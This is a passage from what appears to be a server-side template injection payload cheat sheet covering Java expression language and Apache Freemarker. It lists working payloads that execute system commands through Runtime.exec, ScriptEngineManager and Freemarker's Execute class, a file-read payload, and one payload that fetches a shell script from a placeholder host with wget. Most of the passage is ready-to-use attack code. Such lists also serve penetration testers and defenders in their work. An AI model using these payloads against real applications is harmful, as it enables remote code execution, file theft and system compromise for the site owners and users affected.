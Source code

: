 ```java
${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('whoami')}

// Method using ScriptEngineManager one-liner
${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}

// Method using JavaClass
T(java.lang.Runtime).getRuntime().exec('whoami').x

// Method using ScriptEngineManager
${facesContext.getExternalContext().setResponseHeader("output","".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval(\"var x=new java.lang.ProcessBuilder;x.command(\\\"wget\\\",\\\"http://x.x.x.x/1.sh\\\");org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\"))}
```

---

## Freemarker

[Official website](https://freemarker.apache.org/)
> Apache FreeMarker™ is a template engine: a Java library to generate text output (HTML web pages, e-mails, configuration files, source code, etc.) based on templates and changing data. 

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

### Freemarker - Basic injection

The template can be :

* Default: `${3*3}`  
* Legacy: `#{3*3}`
* Alternative: `[=3*3]` since [FreeMarker 2.3.4](https://freemarker.apache.org/docs/dgui_misc_alternativesyntax.html)

### Freemarker - Read File

```js
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
Convert the returned bytes to ASCII
```

### Freemarker - Code execution

```js
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
#{"freemarker.template.utility.Execute"?new()("id")}
[="freemarker.template.utility.Execute"?new()("id")]
```
